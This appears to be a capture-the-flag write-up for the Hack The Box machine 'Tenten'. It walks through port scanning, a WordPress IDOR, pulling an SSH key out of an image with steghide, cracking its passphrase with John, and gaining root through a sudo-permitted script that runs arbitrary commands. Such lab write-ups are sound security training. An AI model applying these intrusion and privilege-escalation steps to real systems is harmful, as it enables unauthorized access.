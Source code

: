 # HTB - Tenten

#### Ip: 10.10.10.10
#### Name: Tenten
#### Rating: Medium

----------------------------------------------------------------------

Tenten.png

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.10         
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-10 11:42 CDT
Nmap scan report for 10.10.10.10
Host is up (0.068s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.40 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ sudo nmap -sC -sV -T4 10.10.10.10 -p 22,80     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-10 11:43 CDT
Nmap scan report for 10.10.10.10
Host is up (0.065s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ecf79d380c476ff0130fb93bd4d6e311 (RSA)
|   256 ccfe2de27fef4d41ae390e91ed7e9de7 (ECDSA)
|_  256 8db58318c07c5d3d38df4be1a4828a07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://tenten.htb/
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.96 seconds
```

Based on these results lets go ahead and add tenten.htb to `/etc/hosts`.

Heading to the site we find it's running WordPress.

Lets kick off a wpscan to see if we can find any users:

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ wpscan --url http://tenten.htb --enumerate vp,u,vt,tt


_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://tenten.htb/ [10.10.10.10]
```

Cool, we've found one user named takis.

takis.png

Lets head back to the site to see what we can find.

site.png

Clicking on the Job Listings link we see a job posting we can apply for:

job.png

Clicking into the Apply Now button, I'm most interested in the fact that this job or application id is directly represented with an `/8`. 

Playing around with this manually, I see this site has an IDOR vulnerabilty and I can access other materials just by changing the number or ID in the browser. 

### Exploitation

I manually tested this (probably would have been easier to just generate a number list and fuzz this in Burp or with Ffuzz), until I reached `/13` which had an interesting attachment:

13.png

We can fill out the appplication with test data and submit:

hey.png

Now that the aplication is sub,itted, we need to find out where the file ended up. This bit was tricky for me. I knew that standard WP files are loaded to `/wp-content/uploads/YEAR/MONTH/FILE` But was having a hard time finding it. I eventually checked when the box was created (May, 2017) and started fuzzing months in 2017. I eventually found our file at http://tenten.htb/wp-content/uploads/2017/04/HackerAccessGranted.jpg where I find a creepy "hacker" guy:

hacker.png

Not knowing exactly what to do with the image file, I downloaded it to my attacking machine and named it "creepy_hacker.jpg." Lets use exiftool to see if there is an steganography in play here, and something is embedded in the image file.

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ steghide extract -sf creepy_hacker.jpg                   
Enter passphrase: 
wrote extracted data to "id_rsa".
``` 

Whoa.. this is an id_rsa? 

Trying to use the key for user takis we see it's protected by a passphrase:

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ chmod 600 id_rsa
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ ssh -i id_rsa takis@10.10.10.10   
The authenticity of host '10.10.10.10 (10.10.10.10)' can't be established.
ED25519 key fingerprint is SHA256:5a3db7g5K/KVQU7u9yholvmJI7kp3pWZj0qtGz4Yr9Q.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.10' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
takis@10.10.10.10's password: 
```

We can use ssh2john to crack this:

john.png

Nice, John was able to crack this easily.

We can now login as user takis:

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ ssh -i id_rsa takis@10.10.10.10
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

65 packages can be updated.
39 updates are security updates.


Last login: Fri May  5 23:05:36 2017
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

takis@tenten:~$ whoami && hostname
takis
tenten
```

We can now grab the user.txt flag:

user_flag.png

### Privilege Escalation

Running `sudo -l` on the box presents me with an interesting result:

```text
takis@tenten:~$ sudo -l
Matching Defaults entries for takis on tenten:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User takis may run the following commands on tenten:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/fuckin
```

I have no idea what this is, so I turned to Google and found lots of people who REALLY hate Linux for some reason:

linux.png

Not much help there..

Interesting, it appears to be a Bash script:

```text
takis@tenten:~$ file /bin/fuckin
/bin/fuckin: Bourne-Again shell script, ASCII text executable
takis@tenten:~$ cat /bin/fuckin
#!/bin/bash
$1 $2 $3 $4
```
So in theory we should just be able to run it with `sudo` and whatever command we pass will be executed with root permissions. Lets try it

```text
takis@tenten:~$ sudo /bin/fuckin /bin/bash
root@tenten:~# whoami
root
root@tenten:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Nice! That worked!

Lets grab that final flag:

root_flag.png

Thanks for following along!

-Ryan

------------------------------------------------